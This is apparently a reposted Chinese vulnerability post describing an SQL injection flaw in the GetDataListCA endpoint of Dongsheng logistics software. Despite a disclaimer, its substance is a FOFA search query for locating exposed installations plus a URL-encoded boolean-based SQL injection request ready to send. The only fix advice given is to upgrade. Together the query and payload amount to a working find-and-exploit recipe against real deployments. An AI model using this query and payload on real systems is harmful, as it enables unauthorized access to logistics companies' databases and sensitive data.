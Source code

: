 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzk5MDYxODcwMA==&mid=2247483889&idx=1&sn=49db58752bf20b6e1a322dc5c9a9e614

#  东胜物流软件GetDataListCA接口存在SQL注入漏洞  
zz  星络安全实验室   2025-07-13 12:19  
  
<table><tbody><tr><td data-colwidth="576"><span style="color: rgba(0, 0, 0, 0.9);font-family: &#34;PingFang SC&#34;, system-ui, -apple-system, BlinkMacSystemFont, &#34;Helvetica Neue&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;font-size: 16px;font-style: normal;font-variant-ligatures: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: 0.544px;orphans: 2;text-align: justify;text-indent: 0px;text-transform: none;widows: 2;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration-thickness: initial;text-decoration-style: initial;text-decoration-color: initial;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">免责声明:文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，未授权的攻击属于非法行为!文章中敏感信息均已做多层打码处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责作者不为此承担任何责任，一旦造成后果请自行负责</span></span></td></tr></tbody></table>  
  
东胜物流软件是青岛东胜伟业软件有限公司一款集订单管理、仓库管理、运输管理等多种功能于一体的物流管理软件。该系统在GetDataListCA接口存在SQL注入漏洞，攻击者可以通过利用该漏洞获取数据库等敏感信息。  
  
漏洞复现：  
  
fofa：  

```
body=&#34;FeeCodes/CompanysAdapter.aspx&#34; || body=&#34;dhtmlxcombo_whp.js&#34; || body=&#34;dongshengsoft&#34; || body=&#34;theme/dhtmlxcombo.css&#34;
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/ZxIkWliazrVcyeMicaUgQRibicdI4CCkWlFsUmaichQ0ETnWOWZgMXiarriaexSG1dEibEr2K9BibTo59CHdBbKbxeibMK1A/640?wx_fmt=png&from=appmsg "")  
  
poc：  

```
GET /MvcShipping/MsCwGenlegAccitems/GetDataListCA?PACCGID=%31%27%29%20%41%4e%44%20%28%53%45%4c%45%43%54%20%43%41%53%45%20%57%48%45%4e%20%28%36%37%38%32%3d%36%37%38%32%29%20%54%48%45%4e%20%31%20%45%4c%53%45%20%30%20%45%4e%44%29%3d%31%20%2d%2d HTTP/1.1
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/ZxIkWliazrVcyeMicaUgQRibicdI4CCkWlFs4EmiasrHYhWbmpXIzibjibURhjfpjN3NnQicF8cdsc4iagzstnZ88UYicDhQ/640?wx_fmt=png&from=appmsg "")  
  
修复详情：  
  
关注厂商动态，升级至安全版本  
  
  
